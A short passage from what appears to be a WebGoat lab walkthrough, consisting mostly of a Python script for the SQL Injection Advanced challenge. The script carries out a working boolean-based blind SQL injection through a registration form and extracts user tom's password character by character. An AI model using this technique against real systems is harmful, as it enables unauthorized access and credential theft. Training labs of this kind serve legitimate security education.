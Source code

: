 This challenge can be a good exercise to practice scripting. Below, a small example of Python code to find the answer:

```python
import json  
import requests  
  
def sql_injection_advance_5():  
     alphabet_index = 0  
     alphabet = 'abcdefghijklmnopqrstuvwxyz'  
     password_index = 0  
     password = ''  
  
     headers = {  
        'Cookie': COOKIE,  
     }  
  
     while True:  
         payload = 'tom\' AND substring(password,{},1)=\'{}'.format(password_index + 1, alphabet[alphabet_index])  
  
         data = {  
             'username_reg': payload,  
             'email_reg': 'a@a',  
             'password_reg': 'a',  
             'confirm_password_reg': 'a'  
         }  
  
         r = requests.put('http://HOST:PORT/WebGoat/SqlInjectionAdvanced/challenge', headers=headers, data=data)  
  
         try:  
             response = json.loads(r.text)  
         except:  
             print("Wrong JSESSIONID, find it by looking at your requests once logged in.")  
             return  
  
         if "already exists please try to register with a different username" not in response['feedback']:  
             alphabet_index += 1  
             if alphabet_index > len(alphabet) - 1:  
                 return  
         else:  
             password += alphabet[alphabet_index]  
             print(password)  
             alphabet_index = 0  
             password_index += 1  
  
sql_injection_advance_5()
```  

![SQLi Advanced 5](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/sqli-advanced-5.png)
